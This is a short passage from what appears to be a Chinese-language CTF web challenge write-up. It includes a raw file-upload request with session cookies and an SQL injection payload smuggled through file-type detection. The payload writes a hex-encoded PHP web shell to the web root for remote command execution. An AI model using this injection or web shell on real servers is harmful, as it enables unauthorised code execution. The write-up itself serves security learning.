Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8; PHPSESSID=pshlu9hjnvd3t669rp84ggf97l

------WebKitFormBoundaryFoKgAPnn4CStanW0
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundaryFoKgAPnn4CStanW0
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryFoKgAPnn4CStanW0--

```

上传后在filelist.php页面查看文件，发现这里很像之前web224做的一个finfo的文件注入，所以我们传入

```
C64File"');select 0x3c3f3d60245f4745545b315d603f3e into outfile '/var/www/html/1.php';--+
0x3c3f3d60245f4745545b315d603f3e是<?=`$_GET[1]`?>的十六进制
```

上传后访问1.php并进行RCE就行

看upload.php发现果然和之前的那道题是一样的
